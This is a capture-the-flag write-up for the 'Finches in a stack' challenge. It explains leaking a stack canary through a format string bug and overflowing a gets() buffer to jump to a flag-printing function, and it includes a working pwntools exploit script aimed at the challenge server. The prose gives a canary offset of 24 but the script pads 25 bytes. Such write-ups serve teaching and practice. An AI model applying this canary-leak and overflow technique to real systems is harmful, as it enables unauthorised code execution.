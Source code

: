 # Finches in a stack

Let's run a checksec. Canary, no PIE.

On our first input, there's a format string vuln. 

On the second input, there's a buffer overflow as gets is used. 

There is also a flag function that seems to call system("cat flag.txt"). We just need to return to this function.\
There's a canary, so this isn't so easy. 

We can, however, use our format string vulnerability to leak the canary value, as the canary is stored on the stack and format strings let us leak values stored on the stack. I used a simple fuzzing script to find the canary offset, which was 11. We can set a breakpoint at the instruction which checks the canary and paste in a cyclic pattern to get the offset to the canary, which is 24 by checking the loaded canary value from the stack against the pattern. Our payload will be:

junk + canary + 12 bytes of junk + address of flag function

And this works perfectly.
```python
from pwn import *
import re
e = ELF("./fias")
#p = e.process()
p = remote('95.216.233.106',64832)
p.clean()
p.sendline("%11$p")
output = p.recvline().decode()
print(output)
leak = int(re.findall("Nice to meet you, (.*)!", output)[0], 16)
canary = leak
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
